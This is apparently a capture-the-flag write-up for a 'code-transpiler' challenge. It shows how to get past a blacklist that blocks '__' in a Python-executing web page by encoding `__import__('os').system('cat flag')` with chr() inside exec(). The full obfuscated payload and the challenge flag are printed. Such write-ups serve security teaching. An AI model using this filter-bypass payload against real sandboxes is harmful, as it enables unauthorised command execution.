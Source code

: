 # code-transpiler
> Bypass the security restriction and get th flag.

## About the Challenge
We were given a website where we can execute a python command like this

![preview](images/preview.png)

And there are also some limitation (For example, we can’t input `__`)

![blacklist](images/blacklist.png)

## How to Solve?
In this case, we use the `exec()` function, and then I need to change each character to ASCII code and then use the `chr()` function. The command below is used to read the flag

```
__import__("os").system("cat flag") 
```

And then, the final payload will be like this

```
exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(34)+chr(111)+chr(115)+chr(34)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(34)+chr(41))
```

![flag](images/flag.png)

```
CTF{4e08cd8cc051a304f94dd905b66af29572e3aa8fa56d93200bfd34727e2a892a}
```